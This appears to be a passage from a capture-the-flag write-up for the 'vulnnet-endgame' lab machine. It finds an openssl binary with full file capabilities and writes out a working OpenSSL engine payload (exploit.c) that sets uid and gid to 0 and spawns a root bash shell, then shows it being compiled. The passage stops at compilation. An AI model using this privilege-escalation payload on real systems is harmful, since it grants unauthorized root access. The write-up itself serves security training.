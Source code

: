 <br>
<br>
<h2>Capabilities</h2>

```bash
system@vulnnet-endgame:~$ getcap / -r 2>/dev/null
/home/system/Utils/openssl =ep
/snap/core20/1081/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

<p>

- https://gtfobins.github.io/gtfobins/openssl/</p>

<img width="1179" height="333" alt="image" src="https://github.com/user-attachments/assets/9f06b6a3-528b-4763-8316-499c31c69aee" />

<br>
<br>

<img width="1141" height="125" alt="image" src="https://github.com/user-attachments/assets/9170f234-66b3-4bb7-a442-e50409772ab1" />

<br>
<br>
<p>

- hhttps://morgan-bin-bash.gitbook.io/linux-privilege-escalation/openssl-privilege-escalation</p>

<img width="1173" height="717" alt="image" src="https://github.com/user-attachments/assets/f38c9dbc-1cab-49bf-a909-5363b0411ca2" />

<br>
<br>

<p><em>exploit.c</em></p>

```bash
:~/Desktop# cat exploit.c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0); setgid(0);
    system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

```bash
:~/Desktop# gcc -fPIC -o exploit.o -c exploit.c
exploit.c: In function \u2018bind\u2019:
exploit.c:4:5: warning: implicit declaration of function \u2018setuid\u2019 [-Wimplicit-function-declaration]
    4 |     setuid(0); setgid(0);
      |     ^~~~~~
exploit.c:4:16: warning: implicit declaration of function \u2018setgid\u2019 [-Wimplicit-function-declaration]
    4 |     setuid(0); setgid(0);
      |                ^~~~~~
```
